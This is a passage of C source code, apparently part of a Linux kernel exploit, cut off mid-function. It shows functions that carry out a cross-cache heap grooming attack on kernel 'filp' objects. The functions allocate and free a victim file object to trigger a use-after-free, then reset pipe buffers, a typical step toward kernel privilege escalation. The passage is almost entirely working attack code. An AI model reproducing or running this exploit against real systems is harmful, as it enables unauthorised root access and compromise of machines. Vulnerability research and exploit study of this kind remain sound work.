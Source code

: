 ```
void cc_5(void)
{
    //info("Freeing `filp` objects to overflow CPU partial list...");
    for (size_t i = 0; i < g_cc1_num; i++)
    {
        if (i % OBJS_PER_SLAB == 0)
        {
            close(g_cc1_fds[i]);
        }
    }
    usleep(100000);

    return;
}

// Reset all state associated with a cross-cache attempt
void cc_reset(void)
{
    // Close all the remaining FDs
    info("Resetting cross-cache state...");
    for (size_t i = 0; i < CROSS_CACHE_MAX; i++)
    {
        close(g_cc1_fds[i]);
        close(g_cc2_fds[i]);
        close(g_cc3_fds[i]);
    }

    // Reset number trackers
    g_cc1_num = 0;
    g_cc2_num = 0;
    g_cc3_num = 0;
}

// Do cross cache process
void do_cc(void)
{
    // Start cross-cache process
    cc_1();
    cc_2();

    // Allocate the victim filp
    alloc_victim_filp();

    // Free the victim filp
    do_uaf();

    // Resume cross-cache process
    cc_3();
    cc_4();
    cc_5();

    // Allow pages to be freed
    usleep(100000);
}

void reset_pipe_buf(void)
{
    char buf[4096] = { 0 };
    read(g_pipe.fd[PIPE_READ], buf, 4096);
}

void zero_pipe_buf(void)
{
```